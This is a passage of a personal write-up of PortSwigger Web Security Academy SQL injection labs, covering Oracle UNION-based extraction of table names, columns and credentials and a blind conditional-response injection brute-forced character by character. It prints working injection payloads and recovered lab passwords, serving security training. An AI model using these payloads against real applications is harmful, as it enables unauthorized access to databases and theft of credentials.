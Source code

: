 #### Lab: SQL injection attack, listing the database contents on Oracle

##### source: <https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-oracle>

* To solve the lab, log in as the administrator user.

Solution:

Reusing the experience above, we have a payload to list table names as `**'+UNION+SELECT+TABLE_NAME,NULL+FROM+all_tables--**`. After we have payload as `**'+UNION+SELECT+COLUMN_NAME,DATA_TYPE+FROM+all_tab_columns+WHERE+TABLE_NAME+=+'USERS_TTAZON'--**` and `**'+UNION+SELECT+PASSWORD_DACSDY,USERNAME_XICVMM+FROM+USERS_TTAZON--**`. Finally, we get *administrator* and *vbp1uh0zrpdgrquanuih*

## Blind SQL injection

### Exploiting blind SQL injection by triggering conditional responses

#### Lab: Blind SQL injection with conditional responses

##### source: <https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses>

* To solve the lab, log in as the administrator user.

Solution:

Firstly, I tried to inject SQL in *category* but it failed. It always displays *Welcome back* but fails to meet the conditions. I glance at the solution and realize that, oh, it has two queries in here. One in *category* and two in *TrackingId*. And check again with fail conditions in *TrackingId*. Nice, *Welcome back* is disappeared. I saw the hint and knew that all characters are lower case. That is good for me because it saves time when using brute force because I can only check each character for each payload. I have to brute force about twenty times for *sniper mode*. FU!!, try again with *cluster bomb mode* I have the payload as `**'+AND+SUBSTRING((SELECT+password+FROM+users+WHERE+username+=+'administrator'),+§§,+1)+=+'§§;**`.
> SUBSTRING(string, start, length)  
> The AND operator displays a record if all the conditions separated by AND are TRUE.

The payload is checked in each position will be equal to what character in the payload list.

> Payload 1: The position of each character is compared. Here, the length of the password is twenty, so *1-20*. Payload 2: The compared character *0-9, a-z*

And we have password as *x75h9fj4j5kd0thrgnpb*.

> In addition, after seeing some write-up, I see that the step to check the length of the password is so nice. The payload is `**'+AND+(SELECT+username+FROM+users+WHERE+username+=+'administrator'+AND+LENGTH(password)=§§)+=+'administrator**`.

### Error-based SQL injection

#### Exploiting blind SQL injection by triggering conditional errors
